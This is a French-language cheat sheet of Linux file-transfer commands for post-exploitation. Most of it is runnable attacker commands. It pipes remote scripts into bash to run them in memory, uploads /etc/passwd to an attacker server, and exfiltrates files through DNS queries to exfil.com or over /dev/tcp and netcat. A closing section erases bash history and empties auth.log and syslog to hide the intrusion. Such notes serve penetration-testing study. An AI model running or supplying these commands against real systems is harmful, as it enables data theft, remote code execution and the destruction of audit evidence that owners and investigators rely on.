

Ce document détaille les techniques de transfert de fichiers en environnement Linux, souvent abordées dans le cadre de la phase de post-exploitation et du **Network Pivoting**.



## Téléchargements depuis une machine distante

### Utilisation de wget et curl
```bash
wget http://<IP>:<PORT>/file -O /tmp/file
curl -o /tmp/file http://<IP>:<PORT>/file
```

### Exécution fileless
Cette méthode permet d'exécuter un script directement en mémoire sans écriture sur le disque.
```bash
curl http://<IP>/script.sh | bash
wget -qO- http://<IP>/script.sh | bash
```

### Serveurs de transfert locaux
> [!warning] 
> Attention aux logs générés par les serveurs HTTP/FTP sur la machine attaquante.

```bash
# Python 3
python3 -m http.server 8000
# Python 2
python2 -m SimpleHTTPServer 8000
# PHP
php -S 0.0.0.0:8000
```

## Upload depuis la machine cible vers toi

### Utilisation de uploadserver
```bash
# Sur ta machine
python3 -m uploadserver 443 --server-certificate server.pem
# Depuis la cible
curl -X POST https://<IP>/upload -F 'files=@/etc/passwd' --insecure
```

### Python Web Server et wget
```bash
python3 -m http.server 8000
wget http://<IP>:8000/file
```

## Encodage Base64
Utile pour transférer des fichiers via des shells restreints ou des terminaux ne supportant pas les protocoles réseau classiques.

### Encodage (source)
```bash
base64 -w 0 file > encoded.txt
```

### Décodage (destination)
```bash
echo <base64> | base64 -d > file
```

## Transfert via SSH/SCP
> [!tip] 
> Privilégier les méthodes chiffrées (**SCP**/HTTPS) en environnement surveillé.

### Téléchargement (depuis la cible)
```bash
scp user@<IP>:/path/to/file /tmp/
```

### Envoi (vers la cible)
```bash
scp /etc/passwd user@<IP>:/tmp/
```

## FTP
### Lancement du serveur
```bash
python3 -m pyftpdlib --port 21 --write
```

### Récupération (depuis la cible)
```bash
curl ftp://<IP>/file -o file
```

## SMB
Utilisation de la suite **Impacket** pour monter des partages.

### Lancement du serveur SMB
```bash
impacket-smbserver share /tmp/smbshare -smb2support -user test -password test
```

### Montage du partage (depuis la cible)
```bash
mount -t cifs //<IP>/share /mnt -o username=test,password=test
```

## Fallback Bash via /dev/tcp
> [!warning] 
> Le transfert via **/dev/tcp** est instable pour les gros fichiers.

```bash
exec 3<>/dev/tcp/<IP>/80
echo -e "GET /file HTTP/1.0\n" >&3
cat <&3 > file
```

## Utilisation de socat pour le transfert de fichiers
**Socat** est un outil puissant pour le transfert de données, capable de gérer des flux chiffrés ou des connexions complexes.

### Écoute sur la machine attaquante
```bash
socat TCP4-LISTEN:9001,fork file:data.txt
```

### Récupération sur la cible
```bash
socat TCP4:<IP>:9001 file:data.txt,create
```

## Transfert via DNS tunneling
Technique d'exfiltration discrète utilisée lorsque le trafic sortant est restreint aux requêtes DNS. Nécessite un serveur faisant autorité sur un domaine contrôlé.

### Côté attaquant (écoute)
```bash
# Utilisation de dnscat2 ou outils similaires
dnscat2-server --dns domain=exfil.com
```

### Côté cible (exfiltration)
```bash
# Encodage du fichier et envoi via requêtes DNS
cat secret.txt | xxd -p | tr -d '\n' | sed 's/../&./g' | xargs -I {} dig {}.exfil.com
```

## Vérification d'intégrité
> [!tip] 
> Toujours vérifier l'intégrité (hash) après un transfert binaire.

```bash
md5sum file
sha256sum file
```

## Transfert binaire avec Netcat
Technique **Living off the Land (LotL)** permettant de transférer des binaires sans dépendances externes.

### Depuis la machine attaquante (écoute et envoi)
```bash
nc -lvnp 9001 < chisel64
```

### Depuis la machine cible (réception)
```bash
cat < /dev/tcp/10.10.14.7/9001 > /tmp/chisel64
```

### Vérification post-transfert
```bash
md5sum chisel64 /tmp/chisel64
```

> [!note] 
> Cette méthode nécessite que **/dev/tcp** soit activé (Bash >= 2.0). Elle ne gère pas les interruptions de connexion.

## Nettoyage des traces
Il est impératif de supprimer les preuves de passage pour maintenir la discrétion lors de la phase de **Linux Post-Exploitation**.

```bash
# Suppression des fichiers temporaires
rm /tmp/file /tmp/chisel64

# Nettoyage de l'historique bash
history -d $(history | tail -n 1 | awk '{print $1}')
unset HISTFILE

# Effacement des logs (si accès root)
echo > /var/log/auth.log
echo > /var/log/syslog
```

Voir également : **Linux Post-Exploitation**, **Network Pivoting**, **Impacket Suite Usage**, **Living off the Land (LotL) Techniques**.